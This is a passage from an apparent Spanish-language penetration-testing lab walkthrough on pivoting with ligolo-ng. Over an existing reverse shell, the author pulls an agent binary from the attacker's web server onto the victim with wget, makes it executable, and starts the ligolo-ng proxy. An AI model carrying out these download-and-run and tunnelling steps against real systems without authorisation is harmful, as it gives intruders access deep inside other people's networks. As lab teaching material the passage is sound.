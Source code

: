 
Ahora necesitamos ejecutar el agente en (V) donde tenemos la shell reversa. Una forma podría haber sido descargarlo directamente con wget desde la víctima y otra forma puede ser utilizar el servicio web que ya posee KaliLinux en (A) para disponibilizar. Para ello en (A) copiamos el archivo agent al directorio /var/www/html. También nos aseguramos que el servicio de apache2 esté iniciado.

<figure>
<img src="./attachments/fig36.png" alt="copy agent to /var/www/html">
</figure>

Vamos a la shell reversa que tenemos con (V) y ejecutamos wget `http://10.1.0.8/agent`

<figure>
<img src="./attachments/fig37.png" alt="execute wget victim">
</figure>

Le damos permisos de ejecución con `chmod +x agent`

<figure>
<img src="./attachments/fig38.png" alt="change permission of agent">
</figure>

Ahora procedemos a iniciar el proxy en (A) mediante el comando `sudo ./proxy -selfcert`. Tenemos que usar sudo para que ligolo-ng pueda administrar nuestras interfaces de red y rutas hacia el agente. Además, utilizamos el parámetro -selfcert porque no necesitamos más que una comunicación simple y de ser posible encriptada con TLS.

<figure>